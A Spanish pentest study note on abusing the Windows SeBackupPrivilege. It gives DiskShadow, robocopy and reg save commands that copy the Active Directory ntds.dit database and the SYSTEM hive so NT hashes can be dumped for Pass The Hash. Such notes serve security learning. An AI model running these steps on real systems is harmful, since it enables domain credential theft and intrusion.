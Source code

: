 -----
- Tags: #teoria #practica #windows 
- -----
# SeBackupPrivilege 

El privilegio **SeBackupPrivilege** es uno de los muchos privilegios de seguridad que se puieden asignar a losu suarios o grupos en el sitema opertivo Windows. Este privilegio otorga a un usuario o servcio la capacidad de realizar copias de seguridad de archvios y directorios, **incluso si el usuario o servicio no tiene acceso explícito a esos recursos.**

-----
# Abuso 

Como sabemos, el privilegio **SeBackupPrivilege** nos permite realizar copias de seguridad de archivos a los cuales no tenemos acceso, lo cual puede ser interesante de cara a archivos que puedan existir y puedan ser privilegiados, pero incluso en un entorno de [[Active Directory]] esto puede ser aun más interesante ya que podríamos pensar en realizar un [[Pass The Hash]] volcando los hashes NT almacenados en la ruta **C:\Windows\NTDS\ntds.dit**. 

Existen múltiples maneras de abusar de este privilegio las cuales pueden ser vistas en la página web de [pentestlab](https://pentestlab.blog/tag/diskshadow/), pero en este caso haremos uso de **DiskShadow**.
#### Máquina víctima
```shell
# Creamos un archivo con el siguiente contenido: 
set context persistent nowriters 
add volume c: alias {name_to_alias} 
create 
expose %{name_to_alias}% z: 
# IMPORTANTE: AGREGAR UN ESPACIO AL FINAL DE CADA LÍNEA
```
Una vez subido a la máquina victima o creado el archivo con el contenido indicado, podríamos abuscar del **diskshadow.exe** para crear una unidad (En este caso la **z**) con el contenido indicado. 

```shell
diskshadow.exe /s C:\{path}\{to}\{file}\{uploaded}
```
De esta manera, se crea la **shadow copy** y se expone en la unidad **z**.

```shell
copy z:\Windows\NTDS\ntds.dit ntds.dit
# Intentamos crear la copia 
robocopy /b z:\Windows\NTDS\ . ntds.dit
# Si contamos con el privilegio SeBackupPrivilege es mejor hacer uso de robocopy
```
Una vez lograda la copia de seguridad, si la descargamos así como el archivo **system** también (`reg save HKLM\system system`) podríamos dumpear los hashes NT del Active Directory con **impacket-secretsdump** para realizar un [[Pass The Hash]]. 

